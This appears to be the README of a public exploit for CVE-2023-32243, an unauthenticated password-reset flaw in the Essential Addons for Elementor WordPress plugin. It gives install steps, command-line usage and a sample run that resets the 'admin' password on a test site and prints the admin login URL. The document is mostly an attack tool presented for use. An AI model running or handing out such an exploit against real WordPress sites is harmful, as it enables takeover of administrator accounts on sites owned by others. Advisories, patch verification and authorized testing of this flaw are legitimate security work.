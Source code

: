 # CVE-2023-32243.
Essential Addons for Elementor 5.4.0-5.7.1 - Unauthenticated Privilege Escalation

### Info
The plugin does not validate the password reset key, which could allow unauthenticated attackers to reset arbitrary account's password to anything they want, by knowing the related email or username, gaining access to them.

- Python Setup
```
pip install -r requirements.txt
```


### Exploit Details
https://patchstack.com/articles/critical-privilege-escalation-in-essential-addons-for-elementor-plugin-affecting-1-million-sites/

- Usage
```
usage: exploit.py [-h] -u URL -p PASSWORD [-usr USERNAME]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of the WordPress site
  -p PASSWORD, --password PASSWORD
                        Password to set for the selected username
  -usr USERNAME, --username USERNAME
                        Username of the user to reset if you already know it.
 ```

- Example

```
python3 exploit.py --url http://wordpress.lan  --password "adminadmin2"
Please select a username:
1. admin
> 1
Nonce value: f010bc2ac9
All Set! You can now login using the following credentials:
Username:  admin
Password:  adminadmin2
Admin Url: http://wordpress.lan/wp-admin/
```
